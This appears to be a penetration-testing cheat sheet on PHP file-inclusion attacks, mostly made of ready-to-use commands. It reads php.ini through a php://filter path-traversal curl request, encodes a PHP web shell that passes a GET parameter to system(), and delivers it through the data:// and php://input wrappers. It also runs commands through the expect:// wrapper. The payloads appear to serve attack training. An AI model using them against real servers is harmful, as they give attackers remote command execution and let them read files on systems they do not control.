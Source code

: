 
allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```

### Data Wrapper


Reverse shell encoding
```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Reverse shell Payload (Can be done with curl as well)
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```


### Input Wrapper

(Sending data via curl)(Must accept post request)
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)


### Expect Wrapper

Allows for commands to be ran through url streams

It's an external wrapper so we must check for it (Can be found in config)
```shell-session
extension=expect
```

Passing command through url stream
```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
